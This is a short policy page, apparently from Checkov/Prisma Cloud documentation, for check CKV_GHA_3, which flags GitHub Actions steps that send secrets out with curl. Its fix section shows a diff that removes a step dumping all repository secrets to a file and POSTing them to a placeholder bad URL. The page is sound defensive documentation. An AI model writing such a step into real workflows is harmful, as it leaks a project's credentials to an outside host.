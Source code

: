 == GitHub Actions curl is being with secrets


*Policy Details* 

[width=45%]
[cols="1,1"]
|=== 
|Prisma Cloud Policy ID 
| eee86014-e192-45fd-bcd4-a236421ae7fb

|Checkov Check ID 
| https://github.com/bridgecrewio/checkov/tree/master/checkov/github_actions/checks/job/SuspectCurlInScript.py[CKV_GHA_3]

|Severity
|LOW

|Subtype
|Build

|Frameworks
|GithubAction

|=== 


=== Fix - Buildtime


*GitHub Actions* 


Block code and remove code that attempts to exfiltrate secrets.
[,yaml]
----
run:  |
-         echo "${{ toJSON(secrets) }}" > .secrets
-         curl -X POST -s --data "@.secrets" &lt;BADURL > /dev/null
----
